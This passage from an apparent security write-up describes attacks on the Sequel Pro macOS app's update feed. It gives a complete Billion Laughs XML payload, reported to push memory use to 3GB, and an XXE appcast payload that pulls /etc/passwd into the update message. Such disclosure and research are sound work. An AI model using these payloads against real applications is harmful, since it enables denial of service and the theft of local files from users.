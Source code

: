 This vulnerability results in the **Remote Code Execution**.

## Abusing XML format

There is also an additional attack that could be easily performed using the discovered vulnerability. Since communication is based on the `XML` format, we can test it against [XML External Entity (XXE) Processing](https://en.wikipedia.org/wiki/XML_external_entity_attack) attack as well as [Billion laughs](https://en.wikipedia.org/wiki/Billion_laughs) attack.

### Billion laughs

Furthermore, we can enforce application to allocate much memory resources.

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

After running described attack using presented XML file, you can see that Sequel app is allocating **3GB** of memory. It means that our example worked well.

![SequelPRO allocating 3GB of memory](https://vulnsec.com/assets/images/posts/osx-apps-vulnerabilities/screenshot.3.png)

### XXE

It is also possible to insert into the content of the update message any file located on the disk as far as SequelPRO can access it.

```
<?xml version="1.0" encoding="utf-8"?>
 <!DOCTYPE foo [ 
 <!ELEMENT foo ANY >
 <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss xmlns:atom="http://www.w3.org/2005/Atom" xmlns:sparkle="http://www.andymatuschak.org/xml-namespaces/sparkle" version="2.0">
 <channel>
 <title>Sequel Pro</title>
 <link>http://www.sequelpro.com/</link>
 <description>Appcast for Sequel Pro</description>
 <language>en</language>
 <item>
 <title>Sequel Pro v1.2</title>
 <description>&xxe;</description>
 <pubDate>Thu, 01 Jan 1970 00:00:01 GMT</pubDate>
 <enclosure url="https://github.com/sequelpro/sequelpro/releases/download/release-1.1/sequel-pro-1.1.dmg" length="10482573" type="application/octet-stream" sparkle:dsaSignature="MCwCFAyXhQMU7BR1tqa8KFuXnGAooA4ZAhQtJoStAhvbfmvsaejqnWSKWZUuY==" sparkle:version="9999" sparkle:shortVersionString="9.99" />
 </item>
 </channel>
</rss>
```
